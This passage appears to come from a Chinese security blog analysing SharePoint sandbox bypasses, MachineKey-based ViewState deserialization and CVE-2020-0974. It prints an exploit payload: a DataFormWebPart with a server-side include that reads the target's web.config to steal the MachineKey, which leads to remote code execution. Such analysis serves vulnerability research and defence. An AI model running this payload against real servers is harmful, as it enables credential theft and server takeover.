 上述逻辑具体是通过

Microsoft.SharePoint.ApplicationRuntime.SPPageParserFilter 来实现，实际上是通过网页文件的 path 来区分：

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08VFKOe4RacJnic1OshImX1LUqbOFqYnnOryGLxzRHoqTC3OJmSdtHAIMARO1lj80XX4JZbnb9Y9gfw/640?wx_fmt=png)

如果进入了 if 分支，沙箱就会生效，简称 filter 机制。

但是，在服务端最终用 System.Web.UI.TemplateControl.ParseControl() 解析网页时，如果按照下面的方式使用：

```
ParseControl(content);
ParseControl(content, ?true?);
```

filter 机制就会失效，只有第 2 个参数显示指定为 false 时才 ok，我猜作者大概按照这个思路没有找到直接可用的漏洞，但是发现在 design mode 下，filter 机制都会失效，但是会有新的校验方法：Microsoft.SharePoint.EditingPageParser.VerifyControlOnSafeList()

```
internal static void VerifyControlOnSafeList(string dscXml, RegisterDirectiveManager registerDirectiveManager, SPWeb web, bool blockServerSideIncludes = false)
```

这个方法简称 verify 机制，和 ParseControl 一样，最后一个参数也会影响安全因素，当最后一个参数为 false 时（默认 false），允许使用 include 指令。

反序列化、ViewState 与 MachineKey

推荐文章：https://www.t00ls.net/articles-55183.html

一般情况下，我们拿到 MachineKey，其格式如下：

```
<machineKey validationKey="[String]"  decryptionKey="[String]" validation="[SHA1 | MD5 | 3DES | AES | HMACSHA256 | HMACSHA384 | HMACSHA512 | alg:algorithm_name]"  decryption="[Auto | DES | 3DES | AES | alg:algorithm_name]" />
```

就可以来进行反序列化甚至是 RCE。

CVE-2020-0974

该漏洞为一个 RCE 漏洞，漏洞点在于

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08VFKOe4RacJnic1OshImX1LU7l8OmfzspUjibDjxanhIvs8RtyOtETmBMAI9pbzzyjt5iaocLID8eEicQ/640?wx_fmt=png)

verify 机制中，VerifyControlOnSafeList 方法的 blockServerSideIncludes 参数（最后一个参数）为 false 时允许使用 include 指令。

主要利用思路如下：

```
利用include去读取目标web.config中的MachineKey---->利用key生成可RCE的payload
```

其 exp 如下（引号已转义）：

```
<%@ Register TagPrefix=\"WebPartPages\"
Namespace=\"Microsoft.SharePoint.WebPartPage\" Assembly=\"Microsoft.SharePoint,
Version = 16.0.0.0, Culture = neutral, PublicKeyToken = 71e9bce111e9429c\" %>
<WebPartPages:DataFormWebPart runat = \"server\" Title = \"Title\" DisplayName =
\"Name\" ID = \"id1\" >
<xsl>
<!--#include
file=\"c:/inetpub/wwwroot/wss/VirtualDirectories/80/web.config\"-->
</xsl>
</WebPartPages:DataFormWebPart>
```
